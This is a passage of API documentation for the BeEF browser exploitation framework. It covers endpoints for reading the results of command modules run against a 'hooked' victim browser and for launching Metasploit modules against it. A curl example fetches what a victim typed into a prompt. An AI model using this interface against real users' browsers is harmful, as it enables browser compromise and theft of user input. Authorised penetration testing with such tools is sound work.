 #### Response

```
{
    "success": "true",
    "command_id": "1"
}
```
## Return Information About the Specific Command Module Previously Executed

### Handler
* **Endpoint**
  * `GET /api/modules/{session}/{module_id}/{cmd_id}?token={token}`
* **Description**
  * Returns information about a **specific** previously launched BeEF command module.
* **Request Components**
  * `{session}` - session ID of the hooked browser. This ID is the `session_key` value returned in the response to the 
    [`/api/hooks`](#hooked-browsers) request.
  * `{module_id}` - ID of the BeEF module. See [List Command Modules](#list-command-modules).
  * `{cmd_id}` - ID of the command launched. See [Launch Command Module](#launch-command-module-on-a-specific-browser).
* **Query Parameters**
  * `{token}` - your authentication token (see [Authentication](#authentication))

### Example 

Again using our previous example, we would like to know results from the executed command module i.e. what the victim entered to the prompt dialog. In this case the victim entered `don't know` :D

#### Request

```bash
curl http://beefserver.com:3000/api/modules/nBK3BGBILYD0bNMC1IH299oDbZXNNXKfwMEoDwajmItAHhhhe8LLnEPvO3wFjg1rO4PzXsBbUAK1V0gk/71/1?token=320f3cf4da7bf0df7566a517c5db796e73a23f47`
```

#### Response

```
{
    "date": "1332260323",
    "data": "{"data":"answer=don't know"}"
}
```

## Send a Metasploit Module

### Handler
* **Endpoint**
  * `POST /api/modules/{session}/{module_id}?token={token}`
* **Description**
  * Launch a **specific** Metasploit module against a **given** hooked browser
* **Request Components** :
  * `{session}` - session ID of the hooked browser. This ID is the `session_key` value returned in the response to the 
    [`/api/hooks`](#hooked-browsers) request.
  * `{module_id}` - ID of the BeEF module. See [List Command Modules](#list-command-modules).
* **Query Parameters**
  * `{token}` - your authentication token (see [Authentication](#authentication))
* **Request Content**
  * **Headers**
    * Content-Type: `application/json; charset=UTF-8`